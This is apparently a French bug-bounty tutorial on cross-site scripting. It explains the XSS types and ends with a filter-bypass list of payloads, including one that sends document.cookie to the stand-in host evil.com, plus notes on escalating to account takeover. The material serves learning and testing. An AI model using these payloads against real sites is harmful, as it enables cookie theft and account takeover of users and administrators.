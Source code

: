 # XSS (Cross Site Scripting)
## Qu'est ce qu'une XSS

C'est le fait de pouvoir injecter un script que ça soit en JS, HTML, Flash, VBScript ou tout autre langage susceptible d'être exécuté par le navigateur. 

Nous injectons notre code, si l'ordinateur comprends ce que l'on a donné un input et qu'il l'exécute, alors la XSS est confirmée. 

## Types de XSS

### Stored (Stockée)

Les **XSS** de type stockées, sont des injections de scripts qui sont enregistrés en serveur, et appelées de manière non ou mal sécurisée. 

Il s'agit de la XSS la plus critique car elle touche un plus grand nombre d'utilisateur à contrario des autres types de XSS. 

### Blind XSS

Les XSS de type blind sont des XSS de type Stockée, mais qui est exécutée sur un autre endroit du serveur.

Par exemple, on envoie un mail à l'admin via un formulaire de contact, l'admin ouvre sur l'interface d'administration et se prends la XSS.

Elle est souvent utilisée pour de l'**Account Takeover** et de l'**Exfiltration de données** d'administrateurs, mais elle en reste la plus compliquée pour être détectée car aucun élément visuel nous permet de voir que l'injection à été fonctionnelle.

### Reflected XSS

La Reflected envoie le code malicieux au serveur, qui exécute le script et retourne aussitôt le résultat sans pour autant la stocker. 

Exemple, si nous faisons une recherche dans un site pour un produit, et que dans l'url nous avons le résultat de notre recherche, alors nous pouvons tenter une XSS:

>*"\https://mon-url/products/search?q=\<script>alert(1)\</script>"

Si l'injection fonctionne, alors on l'envoie à un utilisateur et il déclenchera l'injection.

### DOM XSS

La Dom XSS est à peu près similaire à la Reflected, à la différence que l'injection n'appelle pas le serveur, mais est executée directement sur la copie locale du client. 

La Dom XSS est due au rendu de l'input utilisateur sur le client de manière non sécurisée.

Cependant attention, car **TOUT** ne se passe pas forcément sur un paramètre d'url.

### Self XSS

La self XSS est une XSS qui nécessite l'interaction utilisateur et donc, agit comme un "phishing", et donc est globalement exclue des programmes de BB.

## Bypass de filtre

Pour bypass les filtres:
- essayer de fermer l'input :   '\<img src="**"/>\<script>alert(1)\</script>\</img>**'
- essayer d'utiliser directement des commandes js: '\<img src="**\javascript:alert(1)"**>\</img>'
- essayer de jouer avec les fonctions d'appel js : '\<img src="**123" onerror="alert(1)"**>'
- encoder avec le datafilter : "\data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+"
- Capitaliser : "\<scRiPT>location='\http://evil.com/c='+document.cookie;\</scRiPT>"
- Si quote et double quote filtrées, utiliser String.fromCharCode pour forger sa string
- Contourner la logique des filtres : "\<scrip\<script>t>alert(1)\</scrip\</script>t>"
### Escalade de la vulnérabilité

Avec les XSS, on peut évoluer sa criticité en passant d'une xss simple à un Account Takeover en volant par exemple les creds d'un admin.

On peut aussi effectuer une IDOR en volant l'id d'un compte et tenter d'accéder à des données qui ne nous appartiennent pas.

Ou bien même également RCE si on exécute les scripts avec les droits d'administrateur.

Et voir aussi compromettre l'intégrité totale du site en fonction des droits des utilisateurs.
